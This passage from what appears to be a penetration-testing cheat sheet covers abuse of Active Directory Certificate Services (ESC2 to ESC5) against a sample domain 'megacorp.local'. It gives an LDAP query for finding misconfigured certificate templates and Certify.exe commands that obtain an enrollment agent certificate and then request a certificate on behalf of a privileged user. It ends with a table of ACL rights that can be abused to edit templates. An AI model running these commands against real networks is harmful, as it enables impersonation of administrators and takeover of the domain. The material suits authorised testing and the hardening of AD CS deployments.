 Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU \(`2.5.29.37.0`\).

Find template with this misconfiguration:

```text
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.

### Agent Certificate + Enroll on Behalf of Another User \(ESC3\) <a id="agent-certificate-enroll-on-behalf-of-another-user-esc-3"></a>

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1. Request an enrollment agent certificate:

```text
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:Vuln-EnrollAgentTemplate
```

2. Request a certificate on behalf of another to a template that allow for domain authentication:

```text
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

### Vulnerable Certificate Template ACEs \(ESC4\) <a id="vulnerable-certificate-template-aces-esc-4"></a>

* ​[https://github.com/cfalta/PoshADCS](https://github.com/cfalta/PoshADCS)​

| Right | Description |
| :--- | :--- |
| `Owner` | Implicit full control of the object, can edit any properties. |
| `FullControl` | Full control of the object, can edit any properties. |
| `WriteOwner` | Can modify the owner to an adversary-controlled principal. |
| `WriteDacl` | Can modify access control to grant an adversary `FullControl`. |
| `WriteProperty` | Can edit any properties. |



### Vulnerable PKI Object ACEs \(ESC5\) <a id="vulnerable-pki-object-aces-esc-5"></a>
